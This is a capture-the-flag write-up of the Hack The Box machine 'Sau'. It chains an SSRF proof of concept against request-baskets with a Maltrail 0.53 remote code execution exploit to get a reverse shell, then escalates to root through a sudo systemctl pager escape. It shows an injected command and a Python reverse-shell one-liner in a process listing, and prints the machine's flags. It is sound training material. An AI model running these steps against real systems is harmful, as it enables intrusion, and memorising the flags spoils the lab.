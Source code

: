 ```yaml
---
layout: post
title: Sau HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy]
image:
  path: /images/htb/easy/sau/icon.png
---
```


A retiring linux easy machine, trying to do one a day!

**Machine created by:** [sau123](https://app.hackthebox.com/users/201596)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.224 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-02 17:22 AEDT
Nmap scan report for 10.10.11.224
Host is up (0.011s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown
```

Lets edit our `/etc/hosts` and add a new entry.

```
10.10.11.224 sau.htb
```

Trying to load [sau.htb:80](http://sau.htb:80) failed, so I take a look at port 55555 and load [sau.htb:55555](http://sau.htb:55555) and see a `request-baskets` instance.

![request-baskets Instance](/images/htb/easy/sau/request-baskets.png)

## Exploitation

I look for any CVEs related to `request-baskets` and find a [PoC for CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163) which is an SSRF vulnerability. We can maybe access that port 80 service we can't seem to reach.

```
$ ./CVE-2023-27163.sh http://sau.htb:55555/ http://localhost:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "bameet" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/bameet now makes the server request to http://localhost:80/.
> Authorization: NM2Y9TQKkreZV-x6IjfYLsjs55W-g6JJ3YlDeB6b1kSc
```

Visiting the request bin shows us a broken instance of Mailtrail (v0.53).

![Mailtrail Instance](/images/htb/easy/sau/mailtrail.png)

## Initial Access & User Flag

Looking online there is a vulnerability for Mailtrail, and find a [PoC](https://packetstormsecurity.com/files/174129/Maltrail-0.53-Remote-Code-Execution.html) which is an RCE.

I set up a reverse shell listener...

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

and execute the PoC...

```
$ python3 MailTrailv053.py 10.10.***.*** 4444 http://sau.htb:55555/bameet
Running exploit on http://sau.htb:55555/bameet/login
```

And I see a shell!

```
[18:09:07] 10.10.11.224:54314: upgrading from /usr/bin/dash to /usr/bin/bash
           10.10.11.224:54314: registered new host w/ db 
           listener: 10.10.16.9:4444: linux session from 10.10.11.224:54314
           established
```

After changing to the shell I notice i'm the user `puma`, I then navigate to the user directory of `puma`:
```
(remote) puma@sau:/opt/maltrail$ cd /home/puma
(remote) puma@sau:/home/puma$ cat user.txt
70e0259608b4b058ee6e83c02f83554b
```

There's the user flag <mark>70e0259608b4b058ee6e83c02f83554b</mark>!

## Root Flag

Checking `sudo -l` gives the following:

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Looking at [GTFOBins entry for systemctl](https://gtfobins.github.io/gtfobins/systemctl/#sudo) under the Sudo permission, there are some exploits.

The most promising one is option (c) due to our limited sudoers line.

I attempt the exploit:

```
(remote) puma@sau:/home/puma$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-01-01 10:14:15 UTC; 21h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 75 (limit: 4662)
     Memory: 384.2M
     CGroup: /system.slice/trail.service
             ├─  893 /usr/bin/python3 server.py
             ├─ 2476 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2478 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2486 sh
             ├─ 2487 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2488 /bin/sh
             ├─ 2510 sudo /usr/bin/systemctl status trail.service
             ├─ 2512 /usr/bin/systemctl status trail.service
             ├─ 2513 pager
             ├─ 2515 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2516 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2519 sh
             ├─ 2520 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2521 /bin/sh
!sh
# whoami
root
# cd /root/root.txt
9d5259dd1993658152d9863c78564c1e
```

And there's the root flag: <mark>9d5259dd1993658152d9863c78564c1e</mark>!

![Success](/images/htb/easy/sau/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).